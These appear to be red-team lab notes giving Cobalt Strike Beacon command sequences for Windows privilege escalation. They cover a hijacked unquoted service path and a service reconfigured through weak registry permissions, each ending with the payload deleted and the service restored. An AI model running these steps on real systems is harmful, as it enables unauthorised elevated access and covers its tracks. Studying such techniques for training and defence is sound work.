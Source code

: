 # Kill Chain

## Unquoted Service Path <a href="#unquoted-service-path" id="unquoted-service-path"></a>

1. Verify the binary path of the service.
   1. `sc_qc BadWindowsService`
2. Verify the permissions of the target directory.
   1. `cacls "C:\Program Files\Bad Windows Service"`
3. Change Beacon's current working directory.
   1. `cd C:\Program Files\Bad Windows Service`
4. Upload a DNS Beacon service payload.
   1. `upload C:\Payloads\dns_x64.svc.exe`
5. Rename the payload to activate the hijack.
   1. `mv dns_x64.svc.exe Service.exe`
6.  Restart the service.

    1. `sc_stop BadWindowsService`
    2. `sc_start BadWindowsService`

    The new Beacon should appear immediately.
7. Interact with the new Beacon.
   1. `Run a checkin command.`
8. Delete the service payload.
   1. `rm Service.exe`

&#x20;

### &#x20;Service Registry Permissions

1. Verify the permissions of the service's regsitry key.
   1. `powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl`
2. Stop the service.
   1. `sc_stop BadWindowsService`
3. Change Beacon's current working directory.
   1. `cd C:\Temp`
4. Upload a DNS Beacon service payload.
   1. `upload C:\Payloads\dns_x64.svc.exe`
5. Get the current binary path.
   1. `sc_qc BadWindowsService`
6. Reconfigure the service to point to the payload.
   1. `sc_config BadWindowsService C:\Temp\dns_x64.svc.exe 0 2`
7.  Start the service.

    1. `sc_start BadWindowsService`

    The elevated Beacon should appear immediately.
8. Restore the binary path.
   1. `sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2`
9. Delete the service payload.
   1. `rm dns_x64.svc.exe`

